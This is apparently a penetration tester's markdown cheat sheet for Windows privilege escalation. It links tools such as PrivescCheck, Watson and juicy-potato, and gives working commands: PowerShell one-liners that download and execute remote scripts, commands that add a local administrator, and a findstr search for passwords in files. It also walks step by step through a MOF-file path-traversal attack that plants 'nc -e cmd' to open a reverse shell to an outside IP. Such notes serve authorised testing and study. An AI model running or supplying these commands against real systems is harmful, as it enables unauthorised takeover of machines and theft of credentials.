 ## PrivEsc Windows
- https://github.com/vu-ls/Crassus
- https://github.com/itm4n/PrivescCheck   
- missing patches:   
  https://github.com/rasta-mouse/Sherlock   
  https://github.com/rasta-mouse/Watson   

- One liner for privesccheck:   
  `[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1');Invoke-PrivescCheck -Extended -Report prvcheckreport -Format HTML,CSV`


- Add new admin:
  `net user /add [username] [password]`  
  `net localgroup administrators [username] /add` 

- `IEX (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1")`  
  `Invoke-AllChecks`
  
- Search for passwords in ini,xml and txt files:  
  `findstr /si password *.xml *.ini *.txt`  
  
- Check services:  
  `wmic service get name, displayname, pathname, startname`  
  Check insecure service permissions:  
  `accesschk.exe -accepteula -uwcqv "Authenticated Users" *`  

- Check Privileges with: `whoami /priv`  
  If User has `SeImpersonate` or `SeAssignPrimaryToken` (most often service accounts!) you can get to SYSTEM by using the "potato": https://github.com/ohpe/juicy-potato  
  For IIS: https://www.youtube.com/watch?v=wK0r-TZR7w8&feature=emb_title  
  For SQL Server: https://www.youtube.com/watch?v=3CPdKMeB0UY&feature=emb_title 
  
If you have path traversal plus a location with write access you can exploit that with a malicious MOF file:  
1. Generate MOF template with msf module "exploit/windows/smb/psexec":  
  msf5 exploit(windows/smb/psexec) > `irb`  
  [ ... ] >>`puts generate_mof("Specialclass","ToOpenReverseShell")`  
2. Copy it to a MOF and replace the following line  
  `ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"ToOpenReverseShell\");}`  
  with:  
  `ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"nc -e cmd 10.11.0.90 9001\");}`  
3. Transfer the nc.exe to the targets C:\windows\system32  
4. Start netcat listener on kali (same port as above in code!)
5. Transfer the MOF file:  
  `put filename.mof ../../../../windows/system32/wbem/mof/Specialclass.mof`  
  --> This will provide you with a reverse shell!

- Error "This program cannot be run in DOS mode."  
  When you get this error in a shell when trying to run uploaded files through FTP, try to first change the mode to binary, before you PUT the file:  
  `ftp> binary`  
  `200 Type set to I.`  
  `ftp> put accesschk.exe` 
  `[ ... ]` 
  `150 Opening BINARY mode data connection for accesschk.exe.`  
  `226 Transfer complete.`  
  